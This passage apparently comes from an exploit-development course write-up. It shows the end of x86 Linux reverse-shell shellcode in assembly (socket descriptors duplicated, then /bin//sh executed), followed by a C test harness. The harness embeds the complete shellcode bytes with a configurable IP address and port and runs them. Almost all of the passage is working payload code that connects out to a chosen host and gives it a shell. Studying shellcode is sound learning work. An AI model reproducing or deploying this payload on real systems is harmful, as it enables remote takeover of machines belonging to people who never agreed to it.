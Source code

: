 ```
;###copy file descriptors###
;dup2(clntSock, 0);
;dup2(clntSock, 1);
;dup2(clntSock, 2);

push byte 0x3f ;dup2
pop eax
mov ebx, esi
xor ecx, ecx

int 0x80

push byte 0x3f
pop eax
inc ecx

int 0x80

push byte 0x3f
pop eax
inc ecx

int 0x80

;###execve###
xor eax, eax
mov al, 0x0b ;sys_execve
xor ebx, ebx 
push ebx ;terminate string with \0
push 0x68732f2f ;String "hs//"
push 0x6e69622f;String "nib/"
mov ebx, esp

xor ecx, ecx
xor edx, edx

int 0x80
```

## Testing
Using the [test skelleton code](https://marcosvalle.github.io/osce/2018/05/03/testing-shellcode.html) slightly modified so the port and the IP address are configurable:

```
#include <stdio.h>

/*
 ipaddr 127.1.1.1 (0101017f)
 port 8888 (b822)
*/
#define IPADDR "\x7f\x01\x01\x01"
#define PORT "\x22\xb8"

unsigned char *shellcode ="\x6a\x66\x58\x31\xdb\x53\x43\x53\x43\x53\x4b\x89\xe1\xcd\x80\x89\xc7\x68"IPADDR"\x66\x68"PORT"\x66\x6a\x02\x89\xe6\x6a\x66\x58\x6a\x03\x5b\x6a\x10\x56\x57\x89\xe1\xcd\x80\x6a\x3f\x58\x89\xfb\x31\xc9\xcd\x80\x6a\x3f\x58\x6a\x01\x59\xcd\x80\x6a\x3f\x58\x41\xcd\x80\x6a\x0b\x58\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

 
 int main(){
     int (*ret)();
     ret = (int(*)())shellcode;
     ret();
```